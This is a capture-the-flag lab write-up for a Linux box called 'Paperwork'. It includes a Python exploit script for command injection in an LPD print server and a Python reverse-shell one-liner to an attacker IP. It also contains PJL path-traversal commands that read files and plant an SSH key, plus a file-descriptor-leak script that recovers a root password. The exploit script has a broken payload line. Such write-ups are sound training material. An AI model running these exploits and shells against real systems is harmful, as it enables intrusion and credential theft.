

# Paperwork

| Field | Value                           |
| ----- | ------------------------------- |
| Level | Easy                            |
| OS    | Linux (Ubuntu)                  |
| IP    | `10.10.10.10` → `paperwork.htb` |
| Flags | `user.txt`, `root.txt`          |

Add the hostname to `/etc/hosts`:

```bash
echo "10.10.10.10 paperwork.htb" | sudo tee -a /etc/hosts
```

## Recon

```bash
sudo nmap --min-rate 5000 -sCV -oA paperwork 10.10.10.10
```

| Port     | State | Service      | Version                                   |
| -------- | ----- | ------------ | ----------------------------------------- |
| 22/tcp   | open  | ssh          | OpenSSH 10.0p2 Ubuntu                     |
| 80/tcp   | open  | http         | nginx 1.28.0                              |
| 1515/tcp | open  | lpd (custom) | hand-rolled LPD server (from web archive) |

The web app serves a downloadable archive containing `server.py` — a hand-rolled **LPD (Line Printer Daemon)** server in Python listening on port 1515. LPD is the old Berkeley printing protocol: clients connect over TCP, send one command byte, then a queue name, then the print-job data.



### `run()` — command dispatch

```python
data = self.sock.recv(1024)
command = data[0]          # first byte as an int (Python 3)
```

In Python 3, `data[0]` is an **integer** 0–255 (not a `bytes` object), so the comparisons are correct:

- `2` → "Receive a printer job" → `handle_print_job`
- `3` or `4` → "Send queue state" → replies `b"Archive_Printer is ready and printing.\n"` (the LPD status response)

### `handle_print_job()` — the job receiver

```python
queue = data[1:].decode().strip()
if queue not in VALID_QUEUE:        # substring membership, not equality!
    self.sock.send(b'\x01'); return  # \x01 = LPD ack, misused here as a reject
```

The handler then loops, reading chunks. The first byte of each chunk is a `subcommand`; it acks with `\x00`, reads a length-prefixed block (the control file), scans for a line starting with `J` (the LPD **job-name** field), and runs:

```python
subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
```

It then drains the rest of the socket and closes.

## Vulnerability — command injection (RCE)

`job_name` comes straight from attacker-controlled bytes (the `J` line of the print job) and is interpolated into a `shell=True` string. The single quotes around the value are trivially escaped by including a `'` in the job name.

**Payload (the job name):**

```bash
test'; touch /tmp/pwned; echo '
```

**Interpreted as:**

```bash
echo 'Archive: test'; touch /tmp/pwned; echo ''  >> /tmp/archive.log
```

Because `shell=True` hands the whole string to `/bin/sh -c "..."`, the injected `;` and `touch` execute as the server's user — **`lp`**. Somewhere, a developer typed `shell=True` and thought "what's the worst that could happen." This box is the answer.

### Bonus bug — the queue check

`if queue not in VALID_QUEUE:` is **substring** membership against the `LPD_QUEUE` env string, not equality. Two consequences:

1. The queue name is **not** `Archive_Printer` (that string is just the hardcoded status reply), so guessing it yields `REJECTED`.
2. Universal bypass: `"" in ANYTHING` is always `True`. The developer's queue "validation" is, charitably, a participation trophy — send an **empty queue** and it sails right through. A single character of the real name (e.g. `"A"`) also works, because apparently precision was not a priority.

### Exploit script — `exploit_lpd.py`

Automates the LPD wire protocol: sends the `\x02` job command, reads the server's queue-ack (printing `ACCEPTED`/`REJECTED`), then delivers a length-prefixed control file whose `J` line carries the injected command.

```python
#!/usr/bin/env python3
"""
CMDi via the 'J' (job-name) line of an LPD control file, interpolated straight
into subprocess.Popen(..., shell=True). A single quote in the job name breaks
out and yields command execution.

Usage:
  ./exploit_lpd.py <host> <port> <queue> "<cmd>"
"""
import sys
import socket

HOST = sys.argv[1] if len(sys.argv) > 1 else "127.0.0.1"
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 1515
QUEUE = sys.argv[3] if len(sys.argv) > 3 else "Archive_Printer"
CMD = sys.argv[4] if len(sys.argv) > 4 else "id > /tmp/pwned"

# The trailing ' closes the echo arg, then we run our command, then reopen '
# so the rest of the original string parses. Backticks provide command
# substitution so the payload executes inside the shell.
payload = "'`" + CMD + "`'

# The server scans the control file for a line starting with 'J'.
control = b"J" + payload.encode() + b"\n"
size = len(control)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

# 1) Receive-a-job command (0x02) + queue name
s.send(b"\x02" + QUEUE.encode())

# Read the server's queue-ack BEFORE sending the job:
#   server returns b'\x01'  -> REJECTED (invalid queue), then closes
#   server sends nothing     -> ACCEPTED, blocking on the control-file recv
s.settimeout(2.0)
try:
    ack = s.recv(1)
    if ack == b"\x01":
        print(f"[-] REJECTED (bad queue) '{QUEUE}'")
        s.close(); sys.exit(1)
    print(f"[+] ACCEPTED queue='{QUEUE}'")
except socket.timeout:
    print(f"[+] ACCEPTED queue='{QUEUE}' (no ack = server awaiting control file)")
except ConnectionResetError:
    print(f"[-] Connection closed by server (rejected / error) queue='{QUEUE}'")
    sys.exit(1)

s.settimeout(None)  # don't let the accept-check timeout kill the job-send

# 2) Receive-control-file subcommand + length-prefixed control file.
# Tolerate a missing ack so we always reach the payload.
def recv_ack(n=1):
    try:
        return s.recv(n)
    except socket.timeout:
        return b""

s.send(b"\x02" + str(size).encode())
recv_ack(1)                # ack \x00
s.send(control)
recv_ack(1)                # ack \x00
recv_ack(1)                # ack \x00
s.close()

print(f"[+] Sent job to {HOST}:{PORT} queue='{QUEUE}'")
print(f"[+] Injected command: {CMD}")
```

Local confirm (the box's real queue isn't `Archive_Printer`, so use the empty-queue bypass):

```bash
./exploit_lpd.py 10.10.10.10 1515 "" "id > /tmp/pwned"
cat /tmp/pwned
```

## Initial access — reverse shell as `lp`

1. Start a listener on the attack box:
   
   ```bash
   sudo nc -lvnp 9002
   ```

2. Fire the exploit with a Python reverse shell, using the **empty-queue bypass** (`""`) since `Archive_Printer` is rejected:
   
   ```bash
   python3 exploit_lpd.py paperwork.htb 1515 "" \
     "python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.16.105\",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'"
   ```
   
   Expect: `[+] ACCEPTED queue=''` followed by a shell in `nc`.

3. Stabilise the shell:
   
   ```bash
   python3 -c 'import pty;pty.spawn("/bin/bash")'   # check python exists first
   # Ctrl+Z
   stty raw -echo; fg
   export TERM=xterm-256color
   ```

We are now the **`lp`** user — the one the LPD server runs as.

## Pivoting — the PJL / JetDirect service on 9100

`ss -tlp` on the box shows interesting loopback listeners:

```
LISTEN 127.0.0.1:9100   (jetdirect.py, the PJL raw-print service)
LISTEN 127.0.0.1:1337   (custom service)
LISTEN 0.0.0.0:1515     python3 pid=981   (our LPD foothold)
LISTEN 0.0.0.0:80       nginx
LISTEN 0.0.0.0:22       ssh
```

Port **9100** is the standard JetDirect/PJL raw-printing port. Query its identity:

```bash
python3 -c "
import socket
s = socket.create_connection(('localhost', 9100), timeout=5)
s.sendall(b'@PJL INFO ID\r\n')
print(s.recv(4096).decode(errors='ignore'))
s.close()
"
# HP LASERJET 4ML
```

List the daemon's filesystem root:

```bash
python3 -c "
import socket
s = socket.create_connection(('localhost', 9100), timeout=5)
s.sendall(b'@PJL FSDIRLIST NAME=\"/\" ENTRY=1 COUNT=999\r\n')
print(s.recv(8192).decode(errors='ignore'))
s.close()
"
# . TYPE=DIR
# .. TYPE=DIR
# logs TYPE=DIR SIZE=4096
# jetdirect.py TYPE=FILE SIZE=5119
```

Pull `jetdirect.py` to learn the path-handling logic:

```bash
python3 -c "
import socket
s = socket.create_connection(('localhost', 9100), timeout=5)
s.sendall(b'@PJL FSUPLOAD NAME=\"jetdirect.py\" OFFSET=0 SIZE=5119\r\n')
print(s.recv(16384).decode(errors='ignore'))
s.close()
"
```

### The `_translate()` path-traversal bug

The daemon resolves PJL `NAME=` paths like this:

```python
clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
return os.path.normpath(os.path.join(self._root, clean))   # _root = /home/archivist/printer/
```

- **Absolute path** `NAME="/home/archivist/.ssh/authorized_keys"` → `.lstrip("/")` strips the leading slash → joins onto root → resolves to the **fake nested** file `/home/archivist/printer/home/archivist/.ssh/authorized_keys`. The printer daemon's idea of "your home directory" is adorably wrong — it just builds a dollhouse version of the path and writes there. SSH, understandably, refuses to look inside the dollhouse.
- **Traversal path** `NAME="../../../../home/archivist/..."` → no leading slash to strip → `normpath` walks up four levels from the jail and back down → resolves to the **real** `/home/archivist/...`. Classic "I'm not trapped in here with you, you're trapped in here with me" path math.

**Rule: always use traversal paths (`../../../../`) when talking to this service.**

### Read `user.txt`

```bash
python3 -c "
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('127.0.0.1',9100))
s.send(b'@PJL FSUPLOAD NAME=\"../../../../home/archivist/user.txt\"\n')
print(s.recv(4096).decode(errors='ignore'))
s.close()
"
# @PJL FSUPLOAD NAME="../../../../home/archivist/user.txt" SIZE=33
```

> **user.txt:** `[REDACTED]

Congrats!!!!! (halfway to root, and the fun part is just starting)

### Every `@PJL` command is logged verbatim

Every PJL command (`FSUPLOAD`/`FSDOWNLOAD`/`FSQUERY` included) is written to `commands.log` **before** dispatch. That log is the key to the root escalation below.

## `lp` → `archivist` — SSH key via FSDOWNLOAD

Goal: drop our pubkey into the **real** `/home/archivist/.ssh/authorized_keys` and SSH in as `archivist`.

1. On the attack box, generate a keypair (if you don't have one):
   
   ```bash
   ssh-keygen -t ed25519 -f ~/.ssh/id_ed25519 -N "" -C "clumzzy@Po1"
   cat ~/.ssh/id_ed25519.pub
   ```

2. **Write using the traversal path** — the absolute-path write lands in the fake jail file and SSH never sees it:
   
   ```bash
   python3 -c "
   import socket
   pubkey = b'ssh-ed25519 AAAA...your-real-pubkey-blob... clumzzy@Po1\n'
   control = b'@PJL FSDOWNLOAD NAME=\"../../../../home/archivist/.ssh/authorized_keys\" SIZE=' + str(len(pubkey)).encode() + b'\r\n' + pubkey
   s = socket.create_connection(('127.0.0.1', 9100), timeout=5)
   s.sendall(control)
   print(s.recv(4096))
   s.close()
   "
   ```

3. Verify it landed in the **real** file (same traversal path, not absolute):
   
   ```bash
   python3 -c "import socket;s=socket.create_connection(('127.0.0.1',9100),5);s.sendall(b'@PJL FSUPLOAD NAME=\"../../../../home/archivist/.ssh/authorized_keys\"\r\n');print(s.recv(4096).decode(errors='ignore'));s.close()"
   # expecting SIZE=92 (or your key length) with your key content
   ```

4. SSH in as `archivist` (port 22 is externally open):
   
   ```bash
   ssh -i ~/.ssh/id_ed25519 archivist@paperwork.htb
   ```

If SSH still rejects the key, it is `StrictModes` (default `yes`): `~archivist`, `~archivist/.ssh`, or `authorized_keys` must not be group/world-writable. As `lp` you can read but not `chmod` archivist's files — use the `FSQUERY` traversal trick to check mode bits, and if blocked, go straight to the root path below (it does not require the archivist shell).

## `archivist` → `root` — SCM_RIGHTS fd leak

The intended privilege escalation. Recon of the root-owned `paperwork-daemon`:

```bash
ps aux | grep -v grep | grep -E "root|paperwork"   # paperwork-daemon runs as root
file /usr/bin/paperwork-daemon                       # Python script
strings /usr/bin/paperwork-daemon | grep -iE "log|sock|admin|pin|conf"
```

Mechanics confirmed from the strings output:

- The daemon opens `admin_fd` **once at startup** via `os.open(".../admin_pins.conf", O_RDONLY)` and holds it forever.
- `admin_pins.conf` is `root:root 600` → `archivist` **cannot** open it directly. This is why an absolute/path-traversal `FSUPLOAD` of it returns `FILEERROR=1` — a *permissions* failure, not a jail failure.
- The daemon exposes a Unix socket `mgmt.sock`, owned `root:1000`, mode `0660` — so a member of **gid 1000** can connect.
- On connect, it bundles `log_fd` + `admin_fd` and sends them over the socket via `SCM_RIGHTS` (`sendmsg` with `SCM_RIGHTS` ancillary data). The gate that triggers the `sendmsg` appears to check the contents of `commands.log` — i.e. the PJL commands we have been logging.

### SCM_RIGHTS receiver script

As `archivist` (gid 1000, or a process in that group), connect to `mgmt.sock`, satisfy the log-content gate by replaying the right `@PJL` commands so they land in `commands.log`, then receive the `SCM_RIGHTS` ancillary data to obtain a readable fd to `admin_pins.conf` — a file we could never `open()` ourselves.

```python
#!/usr/bin/env python3
import socket, array, os, threading, time

MGMT_SOCK = "/run/paperwork/mgmt.sock"
PRINTER_HOST = "127.0.0.1"
PRINTER_PORT = 9100

def trigger():
    """Replay a @PJL command so it lands in commands.log and satisfies the gate."""
    time.sleep(1)
    try:
        with socket.create_connection((PRINTER_HOST, PRINTER_PORT), timeout=5) as s:
            s.sendall(b'@PJL FSQUERY NAME="jetdirect.py"\r\n')
            time.sleep(0.5)
    except Exception as e:
        print(f"[!] trigger error: {e}")

def recv_fds(sock, msglen=4096, maxfds=4):
    fds = array.array("i")
    msg, ancdata, _, _ = sock.recvmsg(msglen, socket.CMSG_LEN(maxfds * fds.itemsize))
    for level, ctype, data in ancdata:
        if level == socket.SOL_SOCKET and ctype == socket.SCM_RIGHTS:
            fds.frombytes(data[:len(data) - (len(data) % fds.itemsize)])
    return msg, list(fds)

def main():
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    try:
        s.connect(MGMT_SOCK)
    except PermissionError as e:
        print(f"[-] connect failed: {e}")
        return
    print("[*] connected, waiting for trigger...")

    threading.Thread(target=trigger).start()

    msg, fds = recv_fds(s)
    print(f"[+] message: {msg}")
    print(f"[+] fds: {fds}")
    for fd in fds:
        try:
            data = os.pread(fd, 1024, 0)
            print(data.decode(errors="ignore"))
        except Exception as e:
            print(f"[!] fd read error: {e}")

    s.close()

if __name__ == "__main__":
    main()
```

`read()` the leaked fd and the contents of `admin_pins.conf` surface — including the admin password:

```bash
# leaked fd prints, among other lines:
# ADMIN_PASSWORD=[REDACTED]
```

> **admin password:** `[REDACTED`

Use it to switch to root:

```bash
su root
# password: [REDACTED]
```

That is the final link in the chain: the LPD RCE → PJL traversal → SSH-as-archivist steps exist to land us in gid 1000, able to receive the leaked fd. In other words, the entire box is a Rube Goldberg machine whose only purpose is to let a printer hand a file to root and ask root to please pass it back.

Grab the flag:

```bash
cat /root/root.txt
```

CONGRATSSSSSS

## Lessons learned

- **`shell=True` is a loaded gun.** Interpolating any attacker-influenced string into a shell command is RCE by default. `subprocess.run([...])` with an argument list costs nothing and removes the whole class of bug. The `J`-line injection here is the textbook example of why.
- **`in` is not `==`.** A substring-membership queue check (`queue not in VALID_QUEUE`) is not an allowlist. `"" in ANYTHING` is always `True`, so an empty queue walks straight through. Validate with exact equality against a real set of permitted values.
- **`lstrip("/")` is not a path sanitiser.** Stripping leading slashes and naively joining to a root lets `../../` walk straight out of the jail. Use `os.path.realpath()` and confirm the result is still under the intended root — or better, refuse anything containing `..`.
- **Log analysis is recon.** Every `@PJL` command was written to `commands.log` before dispatch. That log wasn't just noise — it was the gate that the root daemon's `SCM_RIGHTS` sendmsg checked. Reading what a service logs tells you what it trusts.
- **Held file descriptors outlive permission checks.** The daemon opened `admin_pins.conf` (root:root 600) once at startup and kept the fd. We could never `open()` it, but we could *receive* the already-open fd over a Unix socket via `SCM_RIGHTS`. When a service holds a privileged handle, the handle — not the path — is the attack surface.
- **Chain the small bugs.** No single step here was a "real" 0-day: a print-daemon RCE, a queue bypass, a path-traversal, an SSH-key drop, and an fd leak. Each is modest; stacked together they go `lp` → `archivist` → `root`. Easy boxes are usually a row of unlocked side doors, not one smashed front door.

## Summary of the kill chain

1. **LPD RCE** — `server.py` `shell=True` injection in the `J` line → shell as `lp`.
2. **Empty-queue bypass** — `""` slips past `queue not in VALID_QUEUE`.
3. **PJL traversal** on `127.0.0.1:9100` — `_translate()`'s `lstrip("/")` + `normpath` lets `../../../../` escape the jail.
4. **Read `user.txt`** via `FSUPLOAD` traversal.
5. **Write SSH key** via `FSDOWNLOAD` traversal into the *real* `authorized_keys` → SSH as `archivist`.
6. **SCM_RIGHTS fd leak** from root `paperwork-daemon` over `mgmt.sock` → read `admin_pins.conf` (`root:root 600`) → recover `ADMIN_PASSWORD` → `su root` → **root**.
